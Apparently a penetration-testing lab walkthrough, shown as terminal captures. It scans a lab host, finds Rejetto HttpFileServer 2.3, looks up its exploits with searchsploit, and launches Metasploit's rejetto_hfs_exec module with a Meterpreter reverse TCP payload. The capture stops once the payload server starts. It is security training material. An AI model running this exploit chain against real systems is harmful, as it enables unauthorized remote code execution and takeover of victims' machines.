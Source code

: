 ```
root@attackdefense:~# nmap -sV -p 80 10.0.18.166
Starting Nmap 7.91 ( https://nmap.org ) at 2023-07-19 17:16 IST
Nmap scan report for 10.0.18.166
Host is up (0.0027s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.60 seconds
```

```
root@attackdefense:~# searchsploit rejetto
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)                                                                                      | windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulnerabilities                                                                                           | windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                                                              | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                                                         | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                                                         | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                                                    | windows/webapps/34852.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
```

```
msf6 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.0.18.166
RHOSTS => 10.0.18.166
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.16.3:4444 
[*] Using URL: http://0.0.0.0:8080/9aOILMYAZ1s5GBY
[*] Local IP: http://10.10.16.3:8080/9aOILMYAZ1s5GBY
[*] Server started.
```